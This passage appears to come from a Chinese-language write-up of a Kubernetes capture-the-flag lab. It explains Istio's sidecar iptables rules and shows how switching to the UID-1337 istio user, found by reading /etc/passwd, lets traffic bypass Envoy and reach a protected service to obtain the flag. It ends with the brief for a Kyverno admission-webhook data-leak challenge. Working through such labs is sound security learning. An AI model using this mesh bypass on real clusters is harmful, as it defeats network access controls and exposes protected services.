 ```
-A ISTIO_OUTPUT -o lo -m owner ! --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --gid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -d 127.0.0.1/32 -j RETURN
-A ISTIO_OUTPUT -j ISTIO_REDIRECT
-A ISTIO_REDIRECT -p tcp -j REDIRECT --to-ports 15001
COMMIT
```

没看太懂 iptables 规则，问了一下 gpt 大概是下面这些：

```

-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --uid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --gid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN
```

如果目的地址不是本地回环且输出接口是 lo，uid 是 1337 和 gid 是 1337 就重定向到 ISTIO_IN_REDIRECT，但是下面的 `-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN` 和 `-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN` 又针对 uid 是 1337 和 gid 是 1337 的用户直接放行不重定向。

因为不太懂 iptables 所以不确定是不是这样理解，但确实 1337 可以绕过：[Consider protecting envoy from being bypassed by an app · Issue #4286 · istio/istio](https://github.com/istio/istio/issues/4286)

issue 也提到确实需要容器中有 root 权限。

```bash
cat /etc/passwd|grep -i "1337"
istio:x:1337:1337::/home/istio:/bin/sh

su istio

curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

## LATERAL MOVEMENT

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.
>
> Need a hand crafting AdmissionReview requests? Checkout https://github.com/anderseknert/kube-review.
>
> This exercise consists of three ingredients: kyverno's hostname (which can be found via dnscan), the relevant HTTP path (which can be found in Kyverno's source code) and the AdmissionsReview request.
